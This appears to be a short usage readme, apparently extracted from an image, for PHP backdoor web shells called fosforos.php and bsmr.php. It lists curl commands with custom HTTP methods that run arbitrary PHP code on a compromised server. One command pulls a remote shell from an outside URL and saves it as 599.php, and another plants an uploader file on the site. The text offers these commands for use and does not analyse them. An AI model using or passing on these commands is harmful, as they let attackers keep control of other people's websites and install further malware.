 
////////////////////////////////////////////////////////////////////////////////////////////////////////////////////////////////
#fosforos.php
// use = ssl://sitename.domain/path/filename.php?FosforoS
////////////////////////////////////////////////////////////////////////////////////////////////////////////////////////////////
#bsmr.php
////////////////////////////////////////////////////////////////////////////////////////////////////////////////////////////////
//[    SAYANGKAMU    ]      = for input php code without '<?php' and '?>'
//example with params     = SayangKamu=echo "kamu siapa?";
//example with curl       = curl -X SAYANGKAMU urldomain/path/filename.ext -d 'SayangKamu=echo "kamu siapa?"; '
//[    SAYANG599     ]      = for input shell by url  
//example with params     = SAYANG599=http://ase.de/kont.ol
//example with curl       = curl -X SAYANG599DONG urldomain/path/filename.ext -d 'SAYANG599=http://ase.de/kont.ol'
//filename if use SAYANG599 599.php
//[ SAYANGAKUMASUKIN ]      = for add uploader in site
//example with params     = ( this not use param ~.~ )
//example with curl       = curl -X SAYANGAKUMASUKIN urldomain/path/filename.ext 
//filename if use SAYANGAKUMASUKIN benihku.php
////////////////////////////////////////////////////////////////////////////////////////////////////////////////////////////////
    
